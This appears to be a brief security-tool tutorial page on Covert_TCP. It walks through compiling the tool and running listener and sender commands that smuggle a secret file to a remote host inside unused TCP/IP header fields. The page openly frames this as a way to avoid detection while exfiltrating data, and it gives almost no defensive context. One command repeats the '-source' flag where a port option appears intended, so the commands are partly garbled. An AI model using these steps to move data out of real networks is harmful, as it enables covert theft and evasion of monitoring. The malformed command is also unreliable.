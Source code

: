 ```yaml
---
title: "Covert_TCP"
date: "2020-04-06"
slug: "covert-tcp"
category: "Security Tools"
---
```


Covert_TCP allows data to be exfiltrated via the unused fields present in TCP/IP headers. This is a useful technique to avoid detection when exfiltrating data. 

We're going to exfiltrate a text file using Covert_TCP. You'll need to set up a sender and a listener device. Once you've downloaded covert_tcp.c to your sender you'll have to compile it.

```bash
cc -o covert_tcp covert_tcp.c
```

On the destination machine do the following:

```bash
cc -o covert_tcp covert_tcp.c
./covert_tcp -dest <destinationIP> -source <sourceIP> -source <sourcePort> -dest_port <destinationPort> -server -file <myDirectory>
```

This has now set it up to receive a file via Covert_TCP. 

Now we'll need to do the following on the sender:

```bash
cc -o covert_tcp covert_tcp.c
./covert_tcp -dest <destinationIP> -source <sourceIP> -source <sourcePort> -dest_port <destinationPort> -file <mySecretFile>
```

Once you enter this command you will see data start to come in on the receiver. In essence this is how you can covertly send data to a remote host.